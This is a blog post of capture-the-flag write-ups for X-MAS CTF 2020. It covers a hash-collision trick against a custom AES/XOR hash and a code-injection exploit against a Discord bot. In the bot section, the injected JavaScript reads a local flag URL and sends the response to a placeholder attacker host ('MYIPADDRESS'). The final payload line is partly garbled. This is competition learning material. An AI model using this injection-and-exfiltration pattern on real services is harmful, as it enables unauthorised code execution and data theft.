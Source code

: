 ```yaml
---
layout: post
title:  "X-MAS CTF writeups"
date:   2020-12-17 12:59:36 +0200
categories: ctf
---
```


These are the writeups for the [X-MAS CTF 2020 by HTsP](https://xmas.htsp.ro/home) challenges that I personally solved.


## Help a Santa helper?

In this challenge you need to find hash collisions for a custom hashing algorithm. After passing the initial challenge using instructions from [here] (https://security.stackexchange.com/questions/223157/how-can-i-find-a-sha-256-hash-with-a-given-suffix-using-hashcat) we are presented a menu:

```
Good, you can continue!
Hello, thanks for answering my call, this time we have to break into Krampus' server and recover a stolen flag.
We have to solve a hash collision problem to get into the server.
Sadly, we're on a hurry and you only have 2 actions you can make until we get detected.
Choose what you want to do:
1. hash a message
2. provide a collision
3. exit
```
The hashing algorithm is given in the challenge and it’s using AES and XOR to calculate the hash in 16 byte blocks:

Let’s first hash a 16 byte message, which is the length of and AES block. If we use “00000000000000000000000000000000” as the first hash the output will be directly from the AES algorithm, something like “6ea8be2…1e692df”. We can then calculate the next hash as 3 AES block as follows:

Let’s again use “0000000…0000000” as the first block so the self.hash will be the same as in the first message “6ea8be2…1e692df”. Let’s the set the hash from first message as the second block. It will then get XORed to zero in AES() call which produces the same value as in the previous block. The final hash will then be “6ea8be2…1e692df” XOR “6ea8be2…1e692df” which is zero. Now the algorithm is back to inital state for the third and final round when we again use “0000000…0000000” as the third block which produces exactly the same hash as the first message a.ka. a collision.

As a generalisation the colliding messages are MSG1 and MSG1+HASH_FOR_MSG1+MSG1. You can find the source code to get past the initial challenge below but I chose to enter the hashes manually since there was no time limit.

{% gist a1812fdfb9845cd8d6b28ae2a1f23ce8 %}


## Comfort bot

In this challenge we need to get a Discord bot to reveal the flag. The source code is provided as part of the challenge and analysing it quickly reveals a code injection exploit:

We can test the vulnerability by sending the bots commands like:
```
comf foo ','
comf foo ',1,'
comf foo ',1,2,'
````

Which translate to function calls like `cleverbot.SendAI('foo',1,2,'')` This takes advantage of the fact that Javascript is a loosely typed language and we can supply any number of arguments to the function. After we verify that the bot answers to these commands we can add JS code to get the flag and make an HTTP request to our own server:

```javascript
window.foo=new XMLHttpRequest();
window.foo.onreadystatechange = function() {window.open("http://MYIPADDRESS/"+this.responseText)}
window.turl = "http://localhost/flag";
window.foo.open("GET",window.turl,true);
window.foo.send();
```
With this code and the fact that function arguments are evaluated left to right the final command to send to the bot is:

```
comf foo',window.foo=new XMLHttpRequest(),window.foo.onreadystatechange = function() {window.open("http://MYIPADDRESS"http://localhost/flag",window.foo.open("GET",window.turl,true),window.foo.send(),'
```


## Krampus' Lazer Tag


{% gist 3183bdb9f38fe52a3947064ed0e3bd4a %}
